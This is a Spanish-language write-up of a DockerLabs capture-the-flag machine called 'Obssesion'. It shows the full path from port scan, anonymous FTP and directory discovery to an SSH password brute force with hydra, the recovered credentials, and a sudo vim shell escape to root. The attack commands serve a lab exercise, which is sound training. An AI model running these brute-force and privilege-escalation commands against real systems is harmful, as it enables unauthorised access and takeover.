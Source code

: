```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/obssesion/","dgPassFrontmatter":true,"noteIcon":""}
---
```


![Pasted image 20250526082559.png](/img/user/Imagenes/Pasted%20image%2020250526082559.png)

empezamos dando un nmap para poder verificar los puertos abiertos:

![Pasted image 20250526082650.png](/img/user/Imagenes/Pasted%20image%2020250526082650.png)

Vemos que los puertos abiertos son:
- 21
- 22
- 80

observamos que el puerto 21 que es el por defecto del ftp tiene login anonymous:

![Pasted image 20250526082822.png](/img/user/Imagenes/Pasted%20image%2020250526082822.png)

Observaos que tenemos dos archivos:

chat-gonza.txt
pendientes.txt

- Lo mas interesante que podemos encontrar esta en pendientes.txt:

![Pasted image 20250526082950.png](/img/user/Imagenes/Pasted%20image%2020250526082950.png)

- **creo que tengo ciertos permisos habilitados que no son del todo seguros**

Podemos pensar en credenciales que tiene sueltas por ahi o cosas asi para loguearnos en el ssh.

Usamos dirsearch para poder buscar directorios;

![Pasted image 20250526083153.png](/img/user/Imagenes/Pasted%20image%2020250526083153.png)

Nos sale los siguientes directorios, lo mas relevante que encontramosw es backup:

![Pasted image 20250526083511.png](/img/user/Imagenes/Pasted%20image%2020250526083511.png)

Dentro de backup, existe un backup.txt y nos muestra un mensaje: **Usuario para todos mis servicio: russoski (cambiar pronto!)**

por lo tanto intuimos que es el usuario del ssh, entonces solo nos falta el password, asi que intentamos un hydra:

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250526083728.png](/img/user/Imagenes/Pasted%20image%2020250526083728.png)

lo que encontramos es lo siguiente:

```
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

entonces ingreseemos al ssh:

**russoski:iloveme**

![Pasted image 20250526083903.png](/img/user/Imagenes/Pasted%20image%2020250526083903.png)

Podemos continuar con un **sudo -l**

![Pasted image 20250526083943.png](/img/user/Imagenes/Pasted%20image%2020250526083943.png)

```
Matching Defaults entries for russoski on 0851434ed3f2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 0851434ed3f2:
    (root) NOPASSWD: /usr/bin/vim
```

eso significa **russoski** puede ejecutar ese programa como super usuario.

- Finalmente solo colocamos: **sudo vim -c ':!/bin/sh'**

![Pasted image 20250526084153.png](/img/user/Imagenes/Pasted%20image%2020250526084153.png)

Explicacion:

Eso se puede utilizar para salir de entornos restringidos mediante la creacion de un shell de sistema operativo.

Para mas informacion: https://gtfobins.github.io/gtfobins/vim/

thanks.


